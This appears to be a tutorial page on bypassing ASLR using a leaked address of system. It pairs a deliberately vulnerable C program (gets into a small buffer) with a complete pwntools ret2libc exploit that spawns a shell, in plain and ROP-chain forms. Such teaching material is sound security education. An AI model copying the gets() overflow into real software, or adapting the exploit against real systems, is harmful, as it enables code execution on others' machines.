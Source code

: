 # ASLR Bypass with Given Leak

## The Source

{% file src="../../.gitbook/assets/aslr.zip" caption="ASLR - 32-bit" %}

```c
#include <stdio.h>
#include <stdlib.h>

void vuln() {
    char buffer[20];

    printf("System is at: %lp\n", system);

    gets(buffer);
}

int main() {
    vuln();

    return 0;
}

void win() {
    puts("PIE bypassed! Great job :D");
}
```

Just as we did for PIE, except this time we print the address of system.

## Analysis

```text
$ ./vuln-32 
System is at: 0xf7de5f00
```

Yup, does what we expected.

{% hint style="info" %}
Your address of system might end in different characters - you just have a different libc version
{% endhint %}

## Exploitation

Much of this is as we did with PIE.

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()
```

Note that we include the libc here - this is just another `ELF` object that makes our lives easier.

Parse the address of system and calculate libc base from that \(as we did with PIE\):

```python
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')
```

Now we can finally ret2libc, using the `libc` `ELF` object to really simplify it for us:

```python
payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

## 64-bit

Try it yourself :\)

{% file src="../../.gitbook/assets/aslr-64.zip" caption="ASLR - 64-bit" %}

## Using pwntools

If you prefer, you could have changed the following payload to be more pwntoolsy:

```python
payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)
```

Instead, you could do:

```python
binsh = next(libc.search(b'/bin/sh'))

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(binsh)

p.sendline(rop.chain())
```

The benefit of this is it's \(arguably\) more readable, but also makes it much easier to reuse in 64-bit exploits as all the parameters are automatically resolved for you.

